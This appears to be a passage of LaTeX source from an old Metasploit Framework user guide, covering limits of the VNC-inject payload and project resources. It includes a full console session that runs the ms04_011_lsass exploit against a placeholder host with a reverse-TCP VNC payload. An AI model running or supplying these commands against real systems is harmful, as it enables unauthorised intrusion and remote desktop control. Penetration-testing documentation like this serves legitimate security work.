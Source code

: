 \documentclass{report}
\begin{document}
\par
There are a few situations where the VNC inject payload will simply not work.
These problems are often cause by strange execution environments or other issues
related to a specific exploit or injection method. These issues will be
addressed as time permits:

\begin{itemize}
	\item The windows/brightstor/universal\_agent exploit will cause the VNC
    payload to crash, possibly due to a strange heap state.
\end{itemize}

\begin{verbatim}
msf > use windows/smb/ms04_011_lsass
msf exploit(ms04_011_lsass) > set RHOST some.vuln.host
RHOST => some.vuln.host
msf exploit(ms04_011_lsass) > set PAYLOAD windows/vncinject/reverse_tcp
PAYLOAD => windows/vncinject/reverse_tcp
msf exploit(ms04_011_lsass) > set LHOST your.own.ip
LHOST => your.own.ip
msf exploit(ms04_011_lsass) > set LPORT 4321
LPORT => 4321
msf exploit(ms04_011_lsass) > exploit
\end{verbatim}

If the \texttt{vncviewer} application is in your path and the AUTOVNC option has
been set (it is by default), Metasploit will automatically open the VNC desktop.
If you would like to connect to the desktop manually, \texttt{set AUTOVNC 0},
then use \texttt{vncviewer} to connect to 127.0.0.1 on port 5900.

\pagebreak

\chapter{More Information}

\section{Web Site}

\par
The metasploit.com web site is the first place to check for updated modules and
new releases. This web site also hosts the Opcode Database and a decent
shellcode archive.

\section{Mailing List}

\par
Metasploit hosts the \texttt{framework} mailing list for general discussion and
help. To subscribe to the mailing list, visit
\url{http://mail.metasploit.com/mailman/listinfo/framework}. Additionally, the
\texttt{framework} archives can be viewed at
\url{http://mail.metasploit.com/pipermail/framework}.
\end{document}
